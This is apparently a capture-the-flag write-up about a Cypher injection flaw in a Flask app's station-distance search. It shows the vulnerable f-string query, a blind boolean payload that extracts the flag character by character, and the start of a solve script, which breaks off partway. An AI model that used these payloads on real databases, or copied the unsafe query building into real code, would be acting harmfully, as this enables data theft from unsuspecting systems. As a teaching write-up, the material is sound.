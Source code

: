 ```python
        session = driver.session()
        tx = session.begin_transaction()
        records = [t for t in tx.run(input_query)]
        tx.rollback()
        return records


@app.route("/")
def index():
    distance = request.args.get('distance')
    stations = query('MATCH (n:Station) RETURN n.id, n.name ORDER BY n.id DESC;')
    return render_template('index.html', stations=stations, distance=distance)


@app.route("/search", methods=['POST'])
def search():
    start = request.form["startStation"]
    end = request.form['endStation']
    distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
    # distance_query = 'MATCH (n {id: city1})-[p *bfs]-(m {id: city2}) RETURN size(p) AS distance;'
    distance = query(distance_query)
    if len(distance) == 0:
        distance = 'unknown'
    else:
        distance = int(distance[0]['distance'])
    return redirect(url_for('.index', distance=distance))

```


Initial query looks like this
```python
distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
# injected
distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
```

sample payload wlll look like
```python
# returns 1 if substring index 0 of n.name is "F"
payload = "-1}) RETURN toInteger(replace(substring(n.name, 0, 1), \"F\", \"1\")) AS distance;//

# payload injected
distance_query = 'MATCH (n {id: -1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'

# })-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;  gets commented out
```
solve.py 
```python
import requests
import re

url = 'https://tbtl-mexico-city-tour.chals.io/search'

# distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
def querier(i, q):
    # generate a single query
    payload = "-1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//"
    data = {
        "startStation": payload,
        "endStation": "1",
```